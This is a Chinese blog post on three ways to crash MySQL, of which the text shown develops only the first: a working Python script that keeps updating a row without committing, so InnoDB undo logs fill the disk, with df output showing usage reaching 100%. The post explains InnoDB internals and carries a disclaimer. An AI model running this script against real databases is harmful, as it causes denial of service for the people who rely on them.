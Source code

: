 ```yaml
---
layout: post
title: "如何搞挂MySQL"
description: ""
category: 数据库
tags: [MySQL]
---
```



本文将介绍三种搞挂MySQL的方式，逗大家一乐，与此同时，也会揭露一些MySQL的使用过程中的注意事项和实现原理，以供参考。感兴趣的同学可以找一个MySQL实例进行测试。三种方式分别是

1. 产生大量undo日志撑满磁盘空间导致MySQL不可用
2. 定义大量用户变量耗尽MySQL的内存
3. 触发MySQL的bug

**声明：** 这里介绍的三种方式可以搞挂目前大多数的线上MySQL实例，请谨慎测试，本文作者不负任何责任。


# 1. 产生大量的undo日志

众所周知，InnoDB是一个支持MVCC的存储引擎，为了支持MVCC，InnoDB需要保存undo日志，以便对用户提供记录的历史版本。如果我们开启一个事务，反复地更新一条记录而不提交，会怎么样呢？将会产生大量的undo日志，使得磁盘空间爆满，导致MySQL不可用。

在innodb现有的实现中，并没有对单个用户或单个连接使用的undo空间进行限制。也就是说，我们只需要反复更新一条记录，而不提交，就会产生大量undo日志。由于我们的事务没有提交，undo日志不能被回收，从而使得磁盘空间被耗尽，最终导致MySQL挂掉。

Jeremy Cole老早就提到过这个[问题][1]，不过该问题至今还存在。要进行该项测试，只需要有更新记录的权限即可。测试脚本如下：

    #!/usr/bin/python
    #-*- coding: UTF-8 -*-
    import pymysql
    import random
    import string
    
    def get_conn():
        return pymysql.connect(user='lmx', password='123456', port=3306, host='127.0.0.1', db='test')
    
    def update_data(n):
        with get_conn() as cursor:
            for i in xrange(n):
                data =  "".join(random.sample(list(string.letters + string.digits), 60)) * 5
                cursor.execute( "update test set val = '{0}'".format(data))
    
    def main():
        print update_data(9900000000)
    
    if __name__ == '__main__':
        main()

测试过程中，可以观察磁盘空间的使用率，一直在上升：

    /dev/vdb         30G  7.7G   23G  26% /ebs
    /dev/vdb         30G   25G  5.4G  83% /ebs
    /dev/vdb         30G   30G   28K 100% /ebs


[2]: http://static.zybuluo.com/lmx07/kdo79hs5tuo8darmczujxmiv/mysql_bug.png
[3]: http://dev.mysql.com/doc/refman/5.6/en/user-resources.html